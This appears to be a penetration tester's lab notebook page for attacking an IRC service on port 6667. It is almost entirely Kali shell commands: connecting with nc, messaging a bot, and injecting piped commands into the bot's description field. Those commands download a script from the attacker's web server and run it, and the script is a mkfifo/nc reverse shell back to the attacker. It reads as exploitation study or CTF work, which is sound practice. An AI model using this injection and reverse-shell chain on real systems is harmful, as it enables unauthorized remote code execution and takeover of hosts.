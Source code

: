 ```bash - kali
nc -nvv $TARGET 6667
```
If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].
```bash - kali
nick kali
```
```bash - kali
user kali 8 * kali
```
```bash - kali
list
```
```bash - kali
join #mailAssistant
```
```bash - kali
privmsg spaghetti_BoT !command
```
```bash - kali
privmsg spaghetti_BoT !about
```
Shelly.sh
```bash - kali
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f
```
```bash - kali
python3 -m http.server 80
```
![[1._rlwrap]]
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```
```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```
#### Hexchat
```bash - kali
sudo apt-get install hexchat
```
Add > Edit
Once connected, go to Server > Channel list.
Enter a wildcard i the search bar and hit search.
* May have to decrease the "channels with" value to 1.
